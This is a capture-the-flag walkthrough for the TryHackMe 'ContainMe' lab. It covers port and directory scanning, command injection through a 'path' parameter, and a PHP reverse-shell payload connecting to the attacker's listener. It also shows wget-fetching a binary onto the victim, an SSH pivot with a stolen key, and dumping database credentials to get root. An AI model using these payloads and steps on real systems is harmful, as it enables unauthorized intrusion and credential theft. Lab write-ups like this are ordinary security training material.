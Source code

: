 # ContainMe

**Room Link:** [https://tryhackme.com/room/containme1](https://tryhackme.com/room/containme1)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (7).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp Request**

```
GET /index.php?path=;id HTTP/1.1
Host: 10.10.108.33
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
nc -lvnp 1337
```

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
/usr/share/man/zh_TW/crypt mike
```

<figure><img src="../../.gitbook/assets/image (456).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/andrew-d/static-binaries.git
cd static-binaries/binaries/linux/x86_64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/nmap
chmod +x nmap
./nmap 172.16.20.0/24 -Pn
```

<figure><img src="../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

Mike has a ssh key so I tried logging into the other server with that and it worked.

**Victim**

```
ssh mike@172.16.20.6 -i /home/mike/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**&#x20;

**Victim**

```
ss -ltp 
```

<figure><img src="../../.gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

Password was password, just guessed it.

**Victim(mysql)**

```
mysql -ppassword 
show databases; 
use accounts;  
select * from users ;
```



<figure><img src="../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>su root
</strong>Password: bjsig4868fgjjeog
</code></pre>

<figure><img src="../../.gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /root
</strong><strong>unzip mike.zip
</strong><strong>Password: WhatAreYouDoingHere
</strong></code></pre>
